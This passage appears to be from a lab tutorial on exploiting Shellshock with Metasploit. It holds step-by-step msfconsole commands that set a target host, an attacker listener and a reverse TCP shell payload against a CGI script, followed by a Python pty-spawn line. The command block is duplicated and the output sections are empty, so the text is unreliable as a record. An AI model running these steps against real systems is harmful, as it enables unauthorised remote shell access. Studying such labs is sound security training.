



4.1 Metasploit
1. Run “metasploit” and look for this vulnerability.
$msfconsole
msf6 > search shellshock
msf6 > search shellshock
Output:

2. Use the (multi/http/apache_mod_cgi_bash_env_exec) exploit.
msf6 > use 1
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOST 192.168.12.35
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST 192.168.12.10
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /cgi-bin/shell.sh
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set payload linux/x86/shell/reverse_tcp
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOST 192.168.12.35
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST 192.168.12.10
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set targeturi /cgi-bin/shell.sh
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set payload linux/x86/shell/reverse_tcp
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit
Output:

You got a "meterpreter".
3. Upgrade to an Intelligent Shell
python -c 'import pty;pty.spawn("/bin/bash")'
Output:
